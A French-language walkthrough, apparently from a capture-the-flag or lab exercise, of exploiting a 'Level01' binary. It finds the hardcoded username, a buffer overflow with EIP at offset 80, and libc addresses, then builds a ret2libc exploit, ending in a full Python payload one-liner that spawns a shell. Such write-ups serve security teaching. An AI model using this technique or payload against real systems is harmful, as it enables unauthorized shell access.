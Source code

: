 ## Level01

![image](https://user-images.githubusercontent.com/29956389/94989475-68a6b380-0575-11eb-84bd-4fefd7fecc08.png)

On observe trois fonctions: `main`, `verify_user_name` et `verify_user_pass`.

![image](https://user-images.githubusercontent.com/29956389/94989125-ad7d1b00-0572-11eb-8132-d9505bf1cd52.png)

On observe l'equivalent d'un `bzero()` de 16 bytes:

![image](https://user-images.githubusercontent.com/29956389/94989418-051c8600-0575-11eb-842d-960576d34650.png)

L'affichage du banner et du prompt:

![image](https://user-images.githubusercontent.com/29956389/94989447-31380700-0575-11eb-9f0b-2932fdd638aa.png)
![image](https://user-images.githubusercontent.com/29956389/94989463-4dd43f00-0575-11eb-82ef-34872e54af29.png)

L'entrée utilisateur pour le username:

![image](https://user-images.githubusercontent.com/29956389/94989491-883ddc00-0575-11eb-8f50-9360295f830d.png)

La comparaison entre le retour de la fonction `verify_user_name` et `0x0`.

![image](https://user-images.githubusercontent.com/29956389/94989510-adcae580-0575-11eb-8d5c-65789bc82cb6.png)

![image](https://user-images.githubusercontent.com/29956389/94989135-be2d9100-0572-11eb-9c69-4cc0d1795319.png)

`0x80486a8` vaut `dat_wil`.

![image](https://user-images.githubusercontent.com/29956389/94989636-99d3b380-0576-11eb-8358-b456386086c8.png)

Le username est correct. Mais dans la fonction `verify_user_pass` la string `0x80486b0 'admin'` ne marche pas comme mot de passe.

![image](https://user-images.githubusercontent.com/29956389/94989140-c980bc80-0572-11eb-9bca-d6580d88d9fa.png)

Par contre on peut voir que notre entréé est stocke a `esp+0x1c` et qu'on lit un maximum de 0x64 bytes:

```
0x08048565 <+149>:   mov    DWORD PTR [esp+0x4],0x64
0x0804856d <+157>:   lea    eax,[esp+0x1c]
0x08048571 <+161>:   mov    DWORD PTR [esp],eax
0x08048574 <+164>:   call   0x8048370 <fgets@plt>
```
On essaye donc d'overflow le buffer:

![image](https://user-images.githubusercontent.com/29956389/94989961-daccc780-0578-11eb-9bb1-80a97de5daf0.png)

![image](https://user-images.githubusercontent.com/29956389/94989965-de604e80-0578-11eb-9852-8e948ccca999.png)

L'eip est a l'offset 80. On peut donc exploiter le binaire. Par contre aucun appel a `system(/bin/sh')` ou `printf($flag)` n'est présent dans le code, on l'exploitera donc avec une attaque ret2libc:

L'idée est d'utiliser les fonction déja présente dans le binaire (system() dans libc), et d'arranger la stack correctement pour faire executer notre code.

On localise donc l'addresse de `system`:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

Ainsi que la string `/bin/sh` (avec une methode un peu brute):

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

Notre exploit est donc composé de :

`[ buffer permettant d'atteindre l'overflow ] [ Adresse system() ] [ Adresse retour ] [ Adresse "/bin/sh" ]`

ou 

`[ 80 bytes ] [ 0xf7e6aed0 ] [ 0xf7e5eb70 ] [ 0xf7f897ec ]`

Notre stack ressemblera donc a ceci:

![image](https://user-images.githubusercontent.com/29956389/94990364-bd4d2d00-057b-11eb-91d6-112544029694.png)

Notez l'adresse retour qui correspond a la sauvegarde de $eip pour l'instruction suivante, on y insere ici l'adresse d'exit pour quitter proprement apres l'exploit, mais ceci est optionel.

![image](https://user-images.githubusercontent.com/29956389/94990423-42384680-057c-11eb-963b-7633d8d1968a.png)

`$ (python -c 'print "dat_wilzer" + "\x0a" + "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7" + "\x0a"' ; cat ) | ./level01`
